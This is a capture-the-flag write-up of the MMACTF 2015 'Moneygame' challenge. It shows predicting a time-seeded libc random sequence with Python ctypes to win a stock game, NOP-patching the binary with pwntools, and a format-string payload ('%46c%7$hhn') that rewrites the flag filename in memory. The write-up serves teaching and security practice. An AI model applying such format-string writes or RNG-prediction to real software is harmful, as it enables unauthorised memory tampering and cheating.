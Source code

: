 ```yaml
---
layout: post
title:  "MMACTF 2015 - Moneygame Writeup"
date:   2015-09-07 18:03:59
categories: CTF Writeup
---
```

# Moneygame 1/2

## Recon

We are presented with a stock market game. We have to time the market just right in order to get 10x our initial cash pile. Psh.. easy peasy

Taking a look at the binary, we see that the numbers are generated from an `srand(time(0))`. This is great for us, since we can create the same random number sequence on our end, thus negating the "random" factor of the stocks.

![srand.png](/assets/images/srand.png)

## Quick aside

There is a print function that clears the screen in the binary. This was annoying to debug. Patching over it is a breeze with [binjitsu](http://www.github.com/binjitsu/binjitsu)

{% highlight python %}
from pwn import *

elf = ELF('moneygame')
# NOP out annoying print that clears screen
elf.asm(0x80487b3, 'nop')
elf.asm(0x80487b4, 'nop')
elf.asm(0x80487b5, 'nop')
elf.asm(0x80487b6, 'nop')
elf.asm(0x80487b7, 'nop')

elf.save('moneygame-patched')
{% endhighlight %}

Now, `moneygame-patched` can use used locally without the annoying screen clear. Now to the actual write-up

## Flag 1

With the help of Python's ctypes, generating these random numbers on our end is trivial:

{% highlight python %}
from ctypes import CDLL
libc = CDLL('libc-2.19.so')

# Seed srand with time(0)
now = int(floor(time.time()))
libc.srand(now)

random_num = libc.rand()
{% endhighlight %}

From here, we replicate the same function that creates the stocks from the binary in Python:

{% highlight python %}
def set_stocks():
    '''Create stocks based on current srand'''
    for index in xrange(1, 4):
        stocks[index].append(10000)

    for _ in xrange(54):
        for index in xrange(1, 4):
            curr_stock = stocks[index][-1]

            # Use of libc's rand in Python
            curr_stock += libc.rand() % 2001 - 1000
            if curr_stock <= 4999:
                curr_stock = 5000
            if curr_stock > 15000:
                curr_stock = 15000

            stocks[index].append(curr_stock)
{% endhighlight %}

Now that we have our three stock listings, we have to determine the optimal buy/sell path to success.

The quick and dirty method I used is described below:

* Calculate the peaks and valleys of each stock listings
* Calculate the largest profit margins for each stock using the peaks and valleys
* Sort all profit margins together
* Attempt to fill the 54 weeks based on the profit margins

An example of the last step of this simple algorithm is below:

The top three profit margins:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
[1, 5, 50,  '2'] Stock 2 from week 1 to 5 yields 100
{% endhighlight %}

Starting with the most profitable, fill in our available actions:
{% highlight python %}
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', '', '', '']
{% endhighlight %}

Second most profitable:
{% highlight python %}
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Our third most profitable overlaps and existing range i.e. the [4, 6, 100, '1']. In this case, fill as much as we can before the start of the existing range.
Note: This is not optimal. Bigger improvements can be made, but are not necessary.
{% highlight python %}
[1, 5, 50, '2']
# Note: 1 - 5 overlaps into existing 4 - 6, Try to go as far as we can before selling.
Actions: ['', 'Buy stock2', 'Rest', 'Sell stock2', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
{% endhighlight %}

Now that we have our optimal actions, we simulate these actions in order to determine if the actions result in a bank of $100k. We don't want to waste time with the server, if we know ahead of time that we can lose.

Once we determine that we can win, we simply throw our results at the server and retrieve the first flag.

## Flag 2

There is a string format vulnerability in the name field of the high score after winning the game. After winning the game, the binary grabs the filename of the flag `flag1`, reads the contents of the file, and returns the contents to the user. We are given that the second flag is named `flag2`, so we can use the string format to simply change the filename from `flag1` to `flag2`. 

{% highlight python %}
# Located at offset 7 on the stack
# 0x804a2b4 = 'flag1'
# 0x804a2b8 = '1'
# '2' == 50
# Padding necessary -> 50 - 4 bytes of address = 46
shellcode = p32(0x804a2b8) + '%46c%7$hhn'
{% endhighlight %}
